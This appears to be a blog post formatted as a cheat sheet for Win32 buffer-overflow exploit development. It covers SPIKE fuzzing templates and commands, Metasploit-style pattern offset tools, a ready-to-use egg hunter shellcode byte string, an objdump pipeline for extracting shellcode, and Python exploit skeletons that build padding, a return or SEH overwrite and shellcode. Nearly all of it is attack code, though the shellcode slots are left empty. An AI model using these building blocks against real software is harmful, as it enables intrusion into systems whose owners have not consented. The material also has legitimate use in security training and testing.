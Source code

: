 ```yaml
---
layout: post
title: 'Win32 Exploit Development Cheat Sheet'
---
```



### Fuzzing

# Spike Template

```javascript
s_string(“GET “);
s_string_variable(” “);
s_string(” HTTP/1.1\r\n”);
s_string(“Host: “);
s_string_variable(“1.1.1.1\r\n\n”);
```

# Spike command

```javascript
./generic_send_tcp <Target-IP> <Target-Port> <script-file> 0 0
```

# Offset Calculation

```javascript
./pattern_create -l 5000
./pattern_offset -q OVERFLOW_PATTERN
```

### Egg Hunter

```javascript
Egg "w00t" = "\x77\x30\x30\x74"

egghunter= "\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x02\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8\x77\x30\x30\x74\x8B\xFA\xAF\x75\xEA\xAF\x75\xE7\xFF\xE7"
```

### Shellcode

# Compiling & Extract Shellcode from a Binary
```javascript
nasm -f elf32 -o myobj.o myfile.nasm

# use "objdump" to extract the shellcode out from the generated object file "myobj.o"
objdump -d myobj.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

# Links

[Writing windows shellcode](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html)

[Linux - Windows shellcode](http://www.vividmachines.com/shellcode/shellcode.html)

[Custom Shellcode without WinExec](http://www.gosecure.it/blog/art/452/sec/create-a-custom-shellcode-using-system-function/)

[Get Shellcode From Binary](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump)



### Exploit

## Skeleton

# Without Class

```python
import struct

def p(x):
	return struct.pack("<L", x)

def write(payload):
	f = open("poc.txt", "w")
	f.write(payload)
	f.close()

if __name__ == "__main__":
	# TODO: Change me!
	shellcode = (
	)

	padding = "A" * 666

	# TODO: Change me!
	payload = padding
	payload += p(0xdeadbeef)
	payload += shellcode

write(payload)
```


# With Class

```python
class Exploit:

	def __init__(self, shellcode):
		self._shellcode = shellcode
		self._payload = None

	def __write(self):
		f = open("poc.txt", "w")
		f.write(self._payload)
		f.close()

	def run(self):
		pattern = "A" * 666

		# TODO: Change me!
		self._payload = pattern

		self.__write()

def main():
	# TODO: Change me!
	shellcode = (
	)

	exploit = Exploit(shellcode)
	exploit.run()

if __name__ == "__main__":
     main()
```

## Example

```python
buffer = junk + ret + shellcode

buffer = junk + nseh + seh + shellcode

```
